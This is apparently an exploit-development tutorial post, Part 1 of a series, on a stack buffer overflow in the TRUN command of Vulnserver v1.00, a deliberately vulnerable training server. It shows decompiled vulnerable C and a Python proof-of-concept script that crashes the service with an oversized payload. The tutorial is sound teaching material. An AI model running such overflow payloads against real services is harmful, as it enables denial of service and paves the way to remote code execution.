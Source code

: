 ```yaml
---
title: Exploit Development - Vulnserver v1.00 Part 1
published: 2025-10-22
description: DoS exploit development against Vulnserver v1.00
tags: [binary exploitation, exploit, vulnerability research]
category: Exploit Development
draft: false
lang: en
---
```


# Vulnserver v1.00 DoS Exploit Dev

## YouTube
<iframe width="100%" height="468" src="https://www.youtube.com/embed/Dd5HpNzpu6w?si=ziFH6kOkVx-yjs3p" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## Vulnerability
Vulnserver v1.00 has the following commands:

1.  HELP
2.  STATS [stat\_value]
3.  RTIME [rtime\_value]
4.  LTIME [ltime\_value]
5.  SRUN [srun\_value]
6.  TRUN [trun\_value]
7.  GMON [gmon\_value]
8.  GDOG [gdog\_value]
9.  KSTET [kstet\_value]
10. GTER [gter\_value]
11. HTER [hter\_value]
12. LTER [lter\_value]
13. KSTAN [lstan\_value]
14. EXIT

-----

The code that controls **TRUN** is as follows:

```c
else if ( !strncmp(buf, "TRUN ", 5u) )
{
	Destination = (char *)malloc(3000u);
	memset(Destination, 0, 3000u);
	for ( i = 5; i < len; ++1 )
	{
		if ( buf[i] == 46 )
		{
			strncpy(Destination, buf, 3000u);
			Function3(Destination);
			break;
		}
	}
	memset(Destination, 0, 0xBB8u);
	v17 = send(s, "TRUN COMPELTE\n", 14, 0);
}

char *__cdecl Function3(char *Source)
{
	char Destination[2008];

	return strcpy(Destination, Source);
}
```

Here, if the **6th value** of the string following the **TRUN** command matches **46** (ASCII text (46): `.`), `Function3` is called from `essfunc.dll`. This function creates a buffer that can store a string of **2008 bytes** but then saves **3000 bytes** into it. This is a very dangerous vulnerability that can allow a **Buffer OverFlow (BOF)** attack.

## PoC
```python
from argparse import ArgumentParser
from socket import *

def createPayload():
    data = b"A" * 65535

    payload = b"TRUN \x2E"
    payload += data

    return payload

def exploit(ip: str, port: int):
    print("[~] Generating payload...")
    payload = createPayload()
    print("[+] Payload generated")

    s = socket(AF_INET, SOCK_STREAM)
    print(f"[~] Connecting to the target: [{ip}]:{port}")
    s.connect((ip, port))

    print("[~] Waiting for a connection message...")
    conn_msg = s.recv(65535)
    print(f"[+] A connection message received: {conn_msg.decode()}")

    print("[~] Sending the payload...")
    s.send(payload)
    s.close()
    print("[+] Connection closed")

    print("[+] DoS Exploit Completed")

def main():
    parser = ArgumentParser(
        prog="Vulnserver v1.00 Exploit",
        description="TRUN command BOF DoS Vulnerability"
    )
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="Set target IPv4 address",
        required=True
    )
    parser.add_argument(
        "-p", "--port",
        type=int,
        help="Set target port number",
        required=True
    )
    
    args = parser.parse_args()

    target_ip       = str(args.ip)
    target_port     = int(args.port)

    exploit(target_ip, target_port)

if __name__ == "__main__":
    main()
```

The Proof of Concept (PoC) above is code that **overwrites 65,535 bytes of memory** via a Buffer Overflow (BOF) attack.
The program terminates abnormally with a DEP Violation error.
A DEP Violation error means that an error is returned due to **an attempted return to a non-executable memory location**.
This indicates that **it's possible to overwrite the return address in the program to perform a Control Flow Hijack,** which could ultimately lead to the execution of a remote attacker's shellcode.
In Part 2, we will develop an RCE Exploit involving a NOP Slide and shellcode generation.